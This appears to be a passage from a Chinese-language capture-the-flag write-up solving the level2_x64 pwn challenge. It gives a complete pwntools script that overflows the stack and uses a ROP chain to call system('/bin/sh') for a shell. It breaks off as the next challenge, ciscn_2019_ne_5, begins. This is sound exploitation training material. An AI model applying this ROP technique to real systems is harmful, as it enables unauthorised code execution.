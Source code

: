 在`vulnerable_function()`处存在栈溢出，且存在`system()`函数

![image.png](img/cbd13d5ed4b80d2d9512d973ecbd6728.png)

在.data段存在`"/bin/sh"`字符串

故考虑构造rop链执行`system("/bin/sh")`即可getshell

构造exp如下：

```
from pwn import *

sh_addr = 0x600A90
pop_rdi_ret = 0x4006B3
call_sys = 0x400603
payload = b'A'*0x80 + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(sh_addr) + p64(call_sys)

p = process('./level2_x64')
p.sendline(payload)
p.interactive() 
```

运行脚本即得flag

![image.png](img/fdd49d33f2d69b91fbd30fd4bcfa8bd2.png)

# 0x016.ciscn_2019_ne_5 - ret2text

惯例的`checksec`，发现只开了NX保护

![image.png](img/63665418c1b5e7b72a3401d51738763e.png)
